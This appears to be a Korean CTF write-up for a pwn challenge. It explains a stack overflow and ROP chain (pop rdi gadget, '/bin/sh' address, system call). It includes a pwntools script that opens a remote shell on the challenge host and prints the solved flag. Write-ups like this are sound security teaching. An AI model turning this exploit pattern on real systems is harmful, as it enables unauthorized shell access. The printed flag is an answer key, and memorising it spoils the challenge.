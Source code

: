 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-05-18-20-00-44.png)

첨부파일

[aaa.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

flag.txt가 아닌 another_flag.txt를 봐야하는 상황이다.

즉, 0x401E57로 가야하는게 아닌 0x401E68로 가서 return address를 오염시켜 another_flag.txt를 획득해야 한다.

![](images/2022-05-18-20-01-27.png)

another_flag.txt를 조합하기보다는 shell을 획득하는 것이 더 편할것 같다는 판단했다.

즉, 0x401E6E에서 return해서 갈 주소를 0x401E5E로 정할것인데, rdi는 "/bin/sh"이 담겨있어야 한다.

먼저 pop rdi ; ret이 사용되는 주소를 살펴본다.

![](images/2022-05-18-20-01-34.png)

[rp++](https://github.com/0vercl0k/rp/downloads)로 pop rdi ; ret이 사용되는 주소가 여러가지 나오는데 그 중 첫번째 줄을 사용하겠다. (0x40191a)

![](images/2022-05-18-20-01-41.png)

그다음 "/bin/sh"이라는 문자열의 주소를 구한다.

먼저 "/bin/sh"의 offset은 다음과 같다. (0x97895)

![](images/2022-05-18-20-02-06.png)

gdb를 통해서 "/bin/sh"의 주소를 확인한다. (0x400000 + 0x97895)

![](images/image.png.png)

mov eax, 0; system()의 주소를 IDA에서 확인한다. (0x401E5E)

최종 payload는 \x00*40 + (pop rdi ; ret주소) + ("/bin/sh"주소) + (mov eax, 0; system()의 주소)이고, python으로 코딩하면 다음과 같다.

```py
from pwn import *

p = remote('oreos.ctfchallenge.ga', 7331)
p.recvuntil('spaces:')

base_addr = 0x400000
shell_offset = 0x97895
system_addr = 0x401E5E
pop_rdi = 0x40191a

payload = b''
payload += b'\x00'*40
payload += p64(pop_rdi)
payload += p64(base_addr + shell_offset)
payload += p64(system_addr)

p.sendline(payload)
p.interactive()
```

실행 후 interactive모드로 전환되고, cat으로 flag를 확인할 수 있다.

![](images/2022-05-18-20-02-42.png)


# **FLAG**

**ictf{r0p_t0_th3_r3scu3!}**